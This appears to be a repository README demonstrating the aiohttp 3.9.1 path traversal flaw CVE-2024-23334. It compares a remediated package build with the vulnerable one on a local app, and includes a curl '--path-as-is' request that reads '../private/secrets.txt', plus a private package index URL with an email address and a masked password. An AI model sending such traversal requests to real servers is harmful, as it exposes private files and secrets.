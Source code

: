 # Demonstrate path traversal with Python CVE-2024-23334
## run Python app that uses aiohttp v3.9.1 and allows for directory traversal
* RUN on Linux!
* start your local venv, `source venv/bin/activate`
* make sure you have a pip.conf in your venv dir that lists: `https://aaron.miller%40chainguard.dev:****@chainguard.jfrog.io/artifactory/api/pypi/python-all-remediated/simple` as it's [global] index-url
* install `pip install aiohttp==3.9.1`
* show `curl --path-as-is http://127.0.0.1:8080/static/../private/secrets.txt`
will show 404
* now uninstall `pip uninstall -y -r <(pip freeze)` and `pip cache purge`
* move the pip.conf to pip.conf.bak
* install again and run the app.py
* it'll show the secret
